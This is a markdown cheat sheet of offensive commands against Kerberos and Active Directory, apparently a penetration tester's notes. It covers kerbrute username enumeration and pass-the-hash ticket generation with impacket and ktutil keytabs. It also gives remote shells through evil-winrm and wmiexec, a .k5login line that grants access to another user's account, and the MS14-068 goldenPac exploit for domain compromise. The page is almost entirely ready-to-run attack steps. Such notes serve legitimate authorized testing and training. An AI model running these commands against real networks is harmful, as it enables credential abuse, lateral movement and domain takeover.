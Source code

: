 ```yaml
---
title: "Kerberos"
date: 2024-7-2
tags: ["kerberos", "kerbrute", "active directory", "ad", "domain controller", "Windows", "smb", "MS14-068", "golden ticket", "goldpac"]
---
```


---
### Kerbrute

[kerbrute](https://github.com/ropnop/kerbrute)

```bash
kerbrute userenum --domain <DOMAIN> --dc <DC> usernames.txt
```

#### Usernames generator

[username-anarchy](https://github.com/urbanadventurer/username-anarchy)

```bash
./username-anarchy -i users.txt | tee usernames.txt
```

<br>

---

### Generate Kerberos Ticket (From Linux)

#### Method #1: Using impacket

```bash
sudo ntpdate -s <DC> && impacket-getTGT -hashes :<HASH> <DOMAIN>/administrator
```

```bash
export KRB5CCNAME=administrator.ccache
```

```bash
# Check ticket
klist
```

#### Method #2 : Using kinit

```bash
# Step 0: Installation
sudo apt install krb5-user cifs-utils
```

```bash
# Step 1: Add domain controller to '/etc/hosts' (Try different order if not work)
10.10.11.10 <DC> <DOMAIN>
```

```bash
# Step 2: Add domain controller as a DNS server to '/etc/resolv.conf'
nameserver 10.10.11.10
```

```bash
# Step 3: Edit '/etc/krb5.conf'

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```bash
# Step 4: Sync time to domain controller
sudo ntpdate -s <DC>
```

#### 2a. Without Creds

```bash
# Generate kerberos ticket for user
kinit <USER>
```

#### 2b. With Hash

```bash
ktutil
```

```bash
add_entry -p administrator@<DOMAIN> -k 1 -key -e rc4-hmac
```

```bash
<HASH>
```

```bash
write_kt administrator.keytab
```

```bash
exit
```

```bash
kinit -V -k -t administrator.keytab -f administrator@<DOMAIN>
```

#### 3. Check ticket

```bash
klist
```

<br>

---

### Remote to target with kerberos

#### Method #1 : Using evil-winrm 

```bash
sudo ntpdate -s <DC> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

#### Method #2 : Using wmiexec

```bash
sudo ntpdate -s <DC> && impacket-wmiexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

<br>

---

### Connect to SMB with kerberos

```bash
sudo ntpdate -s <DC> && impacket-smbclient <DOMAIN>/<USER>@<TARGET_DOMAIN> -k -no-pass
```

<br>

---

### Add Kerboros Access (Linux)

```bash
echo "<USER>@<DOMAIN>" > /home/<TARGET_USER>/.k5login
```

<br>

---

### MS14-068 (Forged Golden Ticket)

```bash
# With creds
impacket-goldenPac '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```bash
# With hash
impacket-goldenPac --hashes :hash '<DOMAIN>/<USER>@<TARGET_DOMAIN>'
```

<br>